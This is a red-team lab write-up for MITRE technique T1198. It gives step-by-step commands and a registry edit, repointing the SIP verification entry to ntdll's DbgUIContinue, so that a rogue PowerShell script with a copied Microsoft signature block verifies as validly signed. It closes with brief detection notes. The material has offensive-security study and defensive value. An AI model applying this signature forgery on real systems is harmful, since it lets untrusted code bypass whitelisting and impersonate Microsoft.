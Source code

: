 ```yaml
---
description: 'Defense Evasion, Persistence, Whitelisting Bypass'
---
```


# T1198: SIP & Trust Provider Hijacking

In this lab, I will try to sign a simple "rogue" powershell script `test-forged.ps1` that only has one line of code, with **Microsoft's** certificate and bypass any whitelisting protections/policies the script may be subject to if it is not signed.

## Execution

The script that I will try to sign:

![](../../.gitbook/assets/trust-ps-file.png)

Just before I start, let's make sure that the script is not signed by using a `Get-AuthenticodeSignature` cmdlet and `sigcheck` by SysInternals:

![](../../.gitbook/assets/trust-not-signed.png)

In order to sign the script with Microsoft's certificate, we need to first find a native Microsoft Signed PowerShell script. I used powershell for this:

```csharp
Get-ChildItem -Path C:\*.ps* -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "# SIG # Begin signature block"
```

![](../../.gitbook/assets/trust-find-signed.png)

I chose one script at random and simply checked if it was signed - luckily it was:

```bash
type C:\Windows\WinSxS\x86_microsoft-windows-m..ell-cmdlets-modules_31bf3856ad364e35_10.0.16299.15_none_c7c20f51cd336675\Wdac.psd1
```

![](../../.gitbook/assets/trust-check-if-signing-block-exists.png)

Let's copy the Microsoft signature block to my script:

![](../../.gitbook/assets/trust-script-with-ms-signing-code.png)

Now let's modify registry at:

```text
HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{603BCC1F-4B59-4E08-B724-D2C6297EF351}
```

From:

![](../../.gitbook/assets/trust-from.png)

To:

{% code title="DLL" %}
```csharp
C:\Windows\System32\ntdll.dll
```
{% endcode %}

{% code title="FuncName" %}
```text
DbgUIContinue
```
{% endcode %}

![](../../.gitbook/assets/trust-to.png)

Now, let's launch a new powershell instance \(for the registry changes to take effect\) and check the signature of the forged script - note how it now shows as signed, verified and valid:

![](../../.gitbook/assets/trust-signed.png)

## Observations

Monitoring the following registry keys/values helps discover this suspicious activity:

![](../../.gitbook/assets/trust-sysmon1.png)

![](../../.gitbook/assets/trust-sysmon2.png)

## References

For all the registry keys/values that should be used as a baseline, please refer to the original research whitepaper by Matt Graeber:  
[SpecterOps Subverting Trust inWindows](https://specterops.io/assets/resources/SpecterOps_Subverting_Trust_in_Windows.pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1198" caption="" %}

{% embed url="https://www.youtube.com/watch?v=wxmxxgL6Nz8" caption="" %}

{% embed url="https://pentestlab.blog/2017/11/06/hijacking-digital-signatures/" caption="" %}

{% embed url="http://ultimate-sysadmin-fanboy.blogspot.com/2015/06/unable-to-renew-certificate-via.html" caption="" %}

{% embed url="https://blogs.msdn.microsoft.com/sqlforum/2011/01/02/walkthrough-request-a-digital-certificate-from-certificate-server-or-create-a-testing-digital-certificate-to-sign-a-package/" caption="" %}

{% embed url="https://www.youtube.com/watch?v=WrHTJQovDoY" caption="" %}

{% embed url="https://www.hanselman.com/blog/SigningPowerShellScripts.aspx" caption="" %}

{% embed url="https://github.com/netbiosX/Digital-Signature-Hijack" caption="" %}

